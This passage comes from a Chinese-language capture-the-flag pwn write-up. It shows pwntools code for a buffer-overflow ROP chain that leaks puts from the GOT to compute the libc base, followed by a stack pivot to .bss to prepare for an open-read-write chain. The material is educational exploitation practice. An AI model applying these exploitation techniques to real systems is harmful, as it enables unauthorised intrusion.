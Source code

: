 ```plain
pl = 'a'*0x108 + p64(rdi) + p64(puts_got) + p64(puts_plt) + p64(0x40125B)
sl(pl)
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00'))
libc_base = puts_addr - libc.sym["puts"]
leak('libc_base ',libc_base)
#duan()
```

这里说一个小技巧，就是我们泄露出来地址，在下断点后，用 vmmap 命令可以确认一下

[![](assets/1708654729-2fc079deada0b2ebb9e0546877b0a28d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221011806-034ba636-d014-1.png)  
然后因为溢出空间不够 orw，所以先来一步栈迁移

[![](assets/1708654729-d4613e85c289e1cdcc2c931036cfae34.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221011814-07a0cc16-d014-1.png)

```plain
bss=0x404200
pl='a'*0x100+p64(bss)+p64(0x401276)
s(pl)
pl='a'*0x100+p64(bss+0x100)+p64(0x401276)
s(pl)
```

因为这里偏移是 0x100，所以第二次的 rbp 设置的 bss+0x100

[![](assets/1708654729-d72a72c27e2f49dd675f7421451395d4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240221011826-0f1aa962-d014-1.png)  
第一次输入后，然后在 0x404100 处读入
